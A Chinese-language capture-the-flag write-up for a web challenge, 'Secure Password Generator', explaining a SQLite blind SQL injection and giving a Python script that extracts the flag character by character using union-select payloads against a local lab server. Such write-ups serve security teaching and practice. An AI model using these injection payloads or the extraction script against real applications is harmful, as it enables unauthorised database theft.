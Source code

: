 # Secure Password Generator

**Author:** tel

**Difficulty:** Hard

**Category:** Web

## 题目描述

这是我的密码生成器，我更喜欢 Baby，生成出来的密码没有人能爆破成功，你呢？糟糕，你不会喜欢我放在数据库里的 flag 吧？

## 题目解析

**暴露端口：`80`**

一道 sqlite 盲注题，flag 在数据库中，我们通过返回的密码复杂程度或者返回的时间，从而来判断注入是否正确

1. `select group_concat(sql) from sqlite_master where type='table'` 由于是 sqlite 数据库，我们可以直接使用这一语句来获取创建数据表时候的 `CREATE` 语句，**直接拿到字段名和表名，甚至还有插入的 FLAG**

2. `substr((),1,1)` 常用的这个函数，对获取的数据进行截断，截取数据中的第一位数据

3. `hex(substr((),1,1))` sqlite 中没有像 mysql 一样的 ascii 函数，所以我们使用 hex 来进行编码

此处需要注意 `hex("l") => 6C` 这里是大写字母 `C`，而我们 python `hex(108) => 0x6c` 是小写的 `c`，这个地方需要进行大写处理 `hex(j)[2:].upper()`

```py
import requests
import time
url = "http://127.0.0.1:3000/randomPassword?level="

escape_chars = ['/','\'','[',']','%','&','_','(',')']
table_name = "flag,level"
sql = "CREATE TABLE flag(        fl4g_1s_HeR3"
flag = ""
for i in range(1,30):
    for j in range(32,127):

        # payload = "-1'union select hex(substr((select group_concat(tbl_name) FROM sqlite_master where type='table' and tbl_name NOT like 'sqlite_%%'),%s,1))='%s'--" % (i,hex(j)[2:].upper())
        # payload = "-1'union select hex(substr((select group_concat(sql) from sqlite_master where type='table'),%s,1))='%s'--" % (i,hex(j)[2:].upper())
        payload = "-1'union select hex(substr((select group_concat(fl4g_1s_HeR3) from flag),%s,1))='%s'--" % (i,hex(j)[2:].upper())

        r = requests.get(url + payload).text
        index = r.index("<div class=\"result\">")+len("<div class=\"result\">")
        password = r[index:index+5]
        time.sleep(0.1)
        if password.isalpha():
            flag += chr(j)
            print(flag)
            # exit()
            break
```
